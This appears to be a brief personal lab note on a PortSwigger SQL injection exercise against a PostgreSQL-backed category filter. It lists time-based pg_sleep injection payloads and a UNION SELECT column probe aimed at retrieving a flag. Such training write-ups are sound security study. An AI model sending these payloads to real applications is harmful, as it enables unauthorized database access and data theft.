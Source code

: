 ```yaml
---
platform: PortSwiggerLabs
categories: Web
---
```

#sqli 

# Functionality
- login form
- search

# Scanning
category query vulnerable identified it as postgresql 

# Attack 
```sql
/filter?category=Accessories'%7c%7cpg_sleep(20)-- 
/filter?category=Accessories'||pg_sleep(20)--
/filter?category=Accessories'||pg_sleep(20)--
```
attack lets see the rows returned and try to return the value

```sql
Accessories' UNION SELECT 'abc','abc'--
```
get flag from there